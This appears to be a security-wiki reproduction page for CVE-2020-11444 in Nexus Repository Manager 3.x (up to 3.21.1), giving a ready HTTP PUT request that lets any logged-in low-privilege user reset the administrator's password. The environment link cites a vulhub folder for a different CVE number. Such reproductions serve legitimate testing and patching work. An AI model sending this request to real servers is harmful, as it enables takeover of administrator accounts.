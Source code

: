 # Nexus Repository Manger change-password Vulnerability for low-privilege modification of administrator password CVE-2020-11444

## Vulnerability Description

Nexus Repository Manger has a vulnerability to modify the administrator password. Low-privileged users can modify the administrator account password if they send a specific request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Nexus  3.x OSS / Pro <= 3.21.1</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204</span>

## Vulnerability reappears

Vulnerability triggering requires any account permissions

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313130306566.png)



After logging in to any user, modify NXSESSIONID, send a request package to modify the administrator account password

```plain
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

Return to 204 and the modification is successful

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313130306557.png)
